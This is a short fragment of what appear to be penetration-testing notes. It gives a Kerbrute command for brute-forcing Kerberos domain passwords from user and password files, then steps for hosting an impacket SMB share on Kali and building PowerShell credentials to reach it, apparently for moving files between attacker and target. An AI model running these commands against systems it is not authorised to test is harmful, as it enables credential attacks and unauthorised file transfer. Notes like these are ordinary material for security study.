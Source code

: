 3. Kerbrute 

```
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

### SMB transfer file 

> Step 

1. Start SMB Server on Kali

```
impacket-smbserver kalitool $(pwd) -smb2support -user kali -password kalikali
```

![](./IMG/77.png)

2. Set up login information with powershell command

```
$pass = convertto-securestring 'kalikali' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('kali', $pass)
```

![](./IMG/78.png)
